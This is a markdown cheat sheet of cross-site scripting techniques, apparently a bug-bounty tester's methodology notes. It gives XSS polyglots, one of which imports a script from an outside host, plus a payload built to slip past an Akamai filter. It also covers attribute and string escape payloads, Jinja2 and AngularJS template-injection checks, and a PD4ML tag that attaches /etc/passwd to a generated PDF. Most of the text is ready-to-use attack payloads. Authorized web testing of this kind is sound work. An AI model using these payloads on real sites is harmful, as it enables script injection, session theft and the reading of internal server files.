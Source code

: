 ### XSS all in one
```
JavaScript://%250A/*?'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(import(/https:\\http://X55.is/.source))}//\76-->
```
### XSS payloads
`https://github.com/foospidy/payloads/tree/master/other/xss`
### XSS ployglot
```
\u0022\u003c%26quot;%26gt;%26lt;"';}};"></ScRipt><svg/oNLoad=confirm(69)>${{7*7}}
```

#### XSS in SVG image 
![image](https://github.com/Sameer484/methodology/assets/110039044/e40a3018-7707-457b-a054-bf3bb3832674)


##### If there is reflected value in the iframe src but akamai blocks it, we can try to bypass it using below payload
````
link=qwe"srcdoc="\u003ce<script%26Tab;src=//dom.xss>\u003ce</script%26Tab;e>

````
![Screenshot from 2023-06-16 18-53-58](https://github.com/Sameer484/methodology/assets/110039044/58c56999-42da-4fcb-a447-b11f9e223984)

#### If you found jinja2 templating engine being used , then see if the double quote is placed when using templating syntax in attribute. If directly {{name}} is being used then we can use "x eventhandler=alert(1)" to execute xss. Using space we can escape the attribute.
````
<input type={{name}}>         ==> vulnerable code
<input type="{{name}}" >      ==> well secure code
````


#### There a small quirk in DOM xss
```
IF you see this code snippet
let a =createElement('div');
a.innerHTML="variable here"
b=sanitize(a);
and add to dom after here

we can execute xss before the sanitize or adding to dom. <img src=x onerror=alert(1)> actually executes before appending to the dom.
```

---
#### Quick tips
- See the reflected value and open inspect element. Search(ctrl+f) for the entered keywords and trace where is it being used.
- If the value is being set to variable , we can escape it and enter javascript
  ````
  var a= "hacked"    //hacked is searched keyword in search bar and it is being assigned here like this.

  we can escape it using
     hacked";alert(2)//
  ````

- If no value are reflected in the response , then test for DOM based XSS. Open DOM Invador and enter the canary value in the search bar or anywhere in the query parameter.
- See if the website is built with Angular js. Now see if the reflected payload is inside the  ng-app directive{\<div ng-app> hacked(this is reflected value)}, check for {{7*7}} CSTI and if DOM is reflected with 49, then it's confirmed that CSTI is possible. 
 
  ---
 - XSS Basic Payload  ( anything'"<x</   )
## XSS in PDF generation using PD4ML library
The normal javascript injection doesn't work with pd4ml, but there is way to add attachment to the pdf. This way we can read internal files.
`<pd4ml:attachment src=”file:///etc/passwd”><pd4ml:attachment>`
